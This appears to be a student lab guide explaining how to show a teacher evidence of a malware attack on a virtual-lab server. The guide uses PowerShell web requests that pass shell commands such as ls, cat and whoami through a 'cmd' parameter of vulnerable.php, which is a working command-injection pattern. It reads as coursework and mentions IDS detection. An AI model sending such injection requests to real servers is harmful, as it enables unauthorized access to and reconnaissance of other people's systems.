 # MALWARE DEMONSTRATION GUIDE
## For showing your teacher the malware attack evidence

### **Background:**
You successfully ran a malware attack script from Kali Linux that:
1. **Planted malware** on the victim server (192.168.56.10)
2. **Created cross-system infection vectors** for site visitors

---

## **STEP-BY-STEP DEMONSTRATION COMMANDS**

### **Step 1: Show the malware directory was created**
```powershell
Invoke-WebRequest -Uri "http://192.168.56.10/vulnerable.php?cmd=ls+-la+/tmp/+|+grep+malware" -UseBasicParsing
```
**What this shows:** Proof that malware directory `malware_DEMO_1755119761` was created on victim server

---

### **Step 2: Show the infected web page was created** 
```powershell
Invoke-WebRequest -Uri "http://192.168.56.10/vulnerable.php?cmd=ls+-la+/tmp/+|+grep+infected" -UseBasicParsing
```
**What this shows:** Proof that infected web page `infected_page_DEMO_1755119761.html` was created for cross-system infection

---

### **Step 3: Show the attack timestamp (proves it's recent)**
```powershell
Invoke-WebRequest -Uri "http://192.168.56.10/vulnerable.php?cmd=ls+-la+/tmp/+|+grep+DEMO_1755119761" -UseBasicParsing
```
**What this shows:** Both files created at `Aug 13 21:16` (during your attack)

---

### **Step 4: Show what's inside the malware directory**
```powershell
Invoke-WebRequest -Uri "http://192.168.56.10/vulnerable.php?cmd=ls+-la+/tmp/malware_DEMO_1755119761/" -UseBasicParsing
```
**What this shows:** Contents of the malware installation directory

---

### **Step 5: Show the infected page content (cross-system infection)**
```powershell
Invoke-WebRequest -Uri "http://192.168.56.10/vulnerable.php?cmd=cat+/tmp/infected_page_DEMO_1755119761.html" -UseBasicParsing
```
**What this shows:** The malicious content that would infect any visitor to the site

---

### **Step 6: Show system information (proves compromise)**
```powershell
Invoke-WebRequest -Uri "http://192.168.56.10/vulnerable.php?cmd=whoami" -UseBasicParsing
Invoke-WebRequest -Uri "http://192.168.56.10/vulnerable.php?cmd=hostname" -UseBasicParsing
```
**What this shows:** Commands executing as `www-data` user on victim server

---

## **PYTHON SCRIPT OPTION**

**Instead of running individual commands, you can run the Python script:**
```bash
python check_malware_infection.py
```

**Requirements:**
- Python 3 installed
- `requests` library: `pip install requests`

---

## **WHAT TO EXPLAIN TO YOUR TEACHER**

### **Part 1: Malware planted on server ✅**
- **Evidence:** `/tmp/malware_DEMO_1755119761/` directory exists on victim server
- **Method:** Used command injection via `vulnerable.php` to deploy malware
- **Timestamp:** Shows recent attack (Aug 13 21:16)
- **User:** Running as `www-data` proves web-based attack succeeded

### **Part 2: Cross-system infection via site visit ✅**  
- **Evidence:** `infected_page_DEMO_1755119761.html` file created
- **Purpose:** Any visitor accessing this page would be infected
- **Method:** Web-based infection vector established
- **Simulation:** Shows how malware spreads to other systems

### **Attack Chain Demonstrated:**
1. **Initial compromise:** Exploited vulnerable.php on victim server
2. **Malware deployment:** Created persistent malware directory and files  
3. **Infection vectors:** Set up web pages that would infect visitors
4. **Cross-system spread:** Demonstrated how attack propagates to other systems

---

## **BROWSER DEMONSTRATION (Optional)**

You can also show in a web browser:
- Visit: `http://192.168.56.10/vulnerable.php?cmd=ls+-la+/tmp/malware_DEMO_1755119761/`
- This will show the malware directory in the browser

---

## **KEY POINTS FOR TEACHER**

✅ **Both lab requirements met:**
- Malware successfully planted on victim server
- Cross-system infection capability demonstrated

✅ **Real attack simulation:**
- Used actual exploitation techniques
- Created persistent malware artifacts  
- Established infection vectors for spread

✅ **Professional methodology:**
- Systematic attack progression
- Evidence collection and verification
- Clear demonstration of impact

---

## **IDS ALERTS**
Don't forget to show your teacher the **Snort IDS alerts** that were triggered during the malware attack - this proves the attack was detected by security systems!
